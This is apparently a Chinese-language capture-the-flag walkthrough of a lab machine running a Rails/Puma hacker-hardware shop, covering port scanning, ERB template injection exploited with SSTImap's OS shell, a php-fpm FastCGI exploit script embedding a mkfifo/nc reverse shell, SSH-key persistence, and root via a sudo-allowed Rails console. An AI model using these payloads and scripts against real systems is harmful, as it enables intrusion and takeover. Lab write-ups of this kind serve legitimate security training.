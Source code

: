 ![[Pasted image 20240913144412.png]]

# 端口扫描

`PORT     STATE SERVICE  VERSION`  
`22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)`  
`| ssh-hostkey:`    
`|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)`  
`|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)`  
`3000/tcp open  ssl/ppp?`  
`| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=FR`  
`| Not valid before: 2024-05-20T15:36:20`  
`|Not valid after:  2038-01-27T15:36:20`  
`|_ssl-date: TLS randomness does not represent time`  
`| fingerprint-strings:`    
`|   GenericLines:`    
`|     HTTP/1.0 400 Bad Request`  
`|     Content-Length: 930`  
`|     Puma caught this error: Invalid HTTP format, parsing fails. Are you trying to open an SSL connection to a non-SSL Puma? (Puma::HttpParserError)`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in execute'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in try_to_finish'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:298:in reactor_wakeup'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:248:in block in run'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:119:in wakeup!'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in block in select_loop'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in select'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in select_loop'`  
`|     /usr/loc`

通过搜索发现3000端口为Rails的Puma服务器默认端口

# 功能测试

访问https://xx.xx.xx.xx:3000,会进入如下网页，网页提供了hacker的硬件推荐，例如Filpper Zero啥的
![[Pasted image 20240913144903.png]]

我们随意点击一个超链接，如图所示
![[Pasted image 20240913145108.png]]
接下来我们搜索一下，看看有没有什么设备是没有的
![[Pasted image 20240913145228.png]]
注意后面的message,为Product+does+not+exist，很明显了，这里有ssti的问题，可以搞ssti注入，但是因为这个服务器是由Ruby搭建的（具体来说是Ruby on Rails），你直接搜ssti还不行，这里应该说是ERB Template injection（ERB示例注入）。
参考链接：[ERB-SSTI](https://www.trustedsec.com/blog/rubyerb-template-injection)
我们以<%=7 * 7%>为载荷测试一下，用burpsuite更改一下message后面的内容
![[Pasted image 20240913145806.png]]
发现确实可以运行，那么这里推荐一个工具，[SSTIMap](https://github.com/vladko312/SSTImap)，--help展示如下

`nwkyo@Fruit ~/C/h/hackingtoys> python ../../../Tools/SSTImap/sstimap.py -h`     
`usage: sstimap.py [-h] [-V] [--config CONFIG] [--no-color] [-u URL] [-i] [--load-urls LOAD_URLS] [--load-forms LOAD_FORMS] [-M MARKER] [-d DATA]`  
                 `[--data-type DATA_TYPE] [--data-params KEY=VALUE] [-H HEADER] [-C COOKIE] [-m METHOD] [-a USER_AGENT] [-A] [--delay DELAY]`  
                 `[-p PROXY] [--verify-ssl] [--log-response] [-c CRAWL_DEPTH] [-f] [--empty-forms] [--crawl-exclude CRAWL_EXCLUDE]`  
                 `[--crawl-domains CRAWL_DOMAINS] [--save-urls SAVE_URLS] [--save-forms SAVE_FORMS] [-l LEVEL] [-L LEVEL CLEVEL] [-e ENGINE]`  
                 `[-r TECHNIQUE] [--blind-delay TIME_BASED_BLIND_DELAY] [--verify-blind-delay TIME_BASED_VERIFY_BLIND_DELAY] [--legacy]`  
                 `[--skip-generic] [--run] [-t] [-T TPL_CODE] [-x] [-X EVAL_CODE] [-s] [-S OS_CMD] [-B PORT] [-R HOST PORT]`  
                 `[--remote-shell REMOTE_SHELL] [-F] [-U LOCAL REMOTE] [-D REMOTE LOCAL]`
                 
和sqlmap用法差不多，同样的-u提供url，所以我们要测试messages是否如我们所料的那样

`python ../../../Tools/SSTImap/sstimap.py -u 'https://192.168.56.101:3000/search?query=1&message=*'`

`[+] Erb plugin has confirmed injection with tag '*'`
`[+] SSTImap identified the following injection point:`

  `Query parameter: message`
  `Engine: Erb`
  `Injection: *`
  `Context: text`
  `OS: x86_64-linux`
  `Technique: render`
  `Capabilities:`

    `Shell command execution: ok`
    `Bind and reverse shell: ok`
    `File write: ok`
    `File read: ok`
    `Code evaluation: ok, ruby code`
`……`

确实如我们所想的那样哈，sstimap和sqlmap一样有`--os-shell`功能，直接在后面添加即可

`python ../../../Tools/SSTImap/sstimap.py -u 'https://192.168.56.101:3000/search?query=1&message=*' --os-shell`

![[Pasted image 20240913150617.png]]
Now we‘re in

# 用户过程

## lidia

我们通过上述方法进入到的用户是lidia用户，具体怎么确认用户这里不做叙述
可以下载linpeas.sh去跑一下是否有感兴趣的东西，这里我翻了很久之后看了一下端口以及进程

![[Pasted image 20240913151003.png]]
发现本地起了9000端口，且用户dodi在运行php-fpm，后面我百度了一下发现了某个大佬的随笔说php-fpm可以直接rce,参考链接在这里：[https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/](https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/)

脚本内容如下：

`#!/bin/bash`

`PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'); echo '-->';"`
`FILENAMES="/dev/shm/index.php" # Exisiting file path`

`HOST=$1`
`B64=$(echo "$PAYLOAD"|base64)`

`for FN in $FILENAMES; do`
    `OUTPUT=$(mktemp)`
    `env -i \`
      `PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \`
      `SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \`
      `cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT`

    `cat $OUTPUT`
`done`

不过在写入这个脚本前记得做持久化登录，Linux这里是做`.ssh/authorized_keys`,Windows的话我记得是写入WinLogon/Userlist注册表条目去

做完后写入保存，并运行，然后就进入dodi的世界里
![[Pasted image 20240913151823.png]]
![[Pasted image 20240913151856.png]]
## dodi

进入之后常规检查sudo -l,发现如下内容
![[Pasted image 20240913151954.png]]

让我们看看这个脚本是怎么个事
![[Pasted image 20240913152040.png]]
这里是说要先创建一个新的Rails应用才能进行下一步的操作，例如进console和测试应用，那么我们可以先创建一个Rails应用然后再进入console

`sudo /usr/local/bin/rvm_rails.sh new rrc`

因为我这里已经创建好了，所以不放过程，我们进入已经创建好的应用文件夹内，例如这里是rrc,进入后执行

`sudo /usr/local/bin/rvm_rails.sh console`

现在已经进入console里了，在这里已经获取root权限了，但是我们面对的是这么一个界面
![[Pasted image 20240913152558.png]]

有两种方式可以执行root命令：
1.
![[Pasted image 20240913153015.png]]
2.创建一个xxxxx.rb，然后文件里就写如图所示的代码，然后通过irb_load去加载这个rb文件
![[Pasted image 20240913153534.png]]


